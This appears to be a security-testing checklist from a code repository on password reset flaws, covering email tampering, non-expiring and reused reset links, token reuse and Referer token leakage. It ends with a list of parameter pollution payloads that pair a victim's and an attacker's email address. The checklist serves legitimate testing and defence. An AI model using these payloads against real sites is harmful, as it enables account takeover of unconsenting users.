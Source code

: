 # Reset Password Vulnerability Checklist

## **Objective**
To identify and test potential vulnerabilities in the password reset functionality that could be exploited by attackers.

## **Key Steps**

### 1. Change Victim’s Email in the Link or Request  
Change the email in the password reset  request, and if that fails, attempt to manipulate parameters such as the one responsible for email verification. By removing or altering parameters, it might allow successful email change, enabling a password change and account takeover.

### 2. Password Reset Link Does Not Expire
If the password reset link does not expire or can be used multiple times to reset the password, it is considered a vulnerability.

### 3. Using Old Password Reset Link
Test if old password reset links still work after new ones have been issued. If an old link is still functional for resetting the password, it is a vulnerability.

### 4. Manipulating the Reset Token
Request a reset token, change the password or email, and then try using the old token to reset the password again. This can result in an account takeover or other security issues.

### 5. Leakage of Reset Token via Referer Headers
After sending the password reset token to the reset page, use tools like Burp Suite to check if the token leaks in the Referer headers or in the response.

### 6. Email Parameter Pollution in JSON and URL Encoded Format
ذذ  `
```
email=victim@gmail.com&email=attacker@gmail.com  
email[]=victim@gmail.com&email[]=attacker@gmail.com  
email=victim@gmail.com%20email=attacker@gmail.com  
email=victim@gmail.com|email=attacker@gmail.com  
email=v@g.com&email=a@g.com  
email=v@g.com%20email=a@g.com  
email=v@g.com|email=a@g.com  
email=v@g.com,a@g.com  
email=v@g.com%20a@g.com  
email=victim@xyz.tld,hacker@xyz.tld  
email=victim@xyz.tld%20hacker@xyz.tld  
email=victim@xyz.tld hacker@xyz.tld  
{ "email" : "Victim@gmail.com,Attacker@gmail.com" , "email" : "Victim@gmail.com" }  
{ "email" : "Victim@gmail.com" , "email" : "Victim@gmail.com,Attacker@gmail.com" }  
{"email":"victim@gmail.com","email":"attacker@gmail.com"}  
{"email":["victim@gmail.com","attacker@gmail.com"]}  
{"email":"v@g.com","email":"a@g.com"}  
{"email":["v@g.com","a@g.com"]}
```
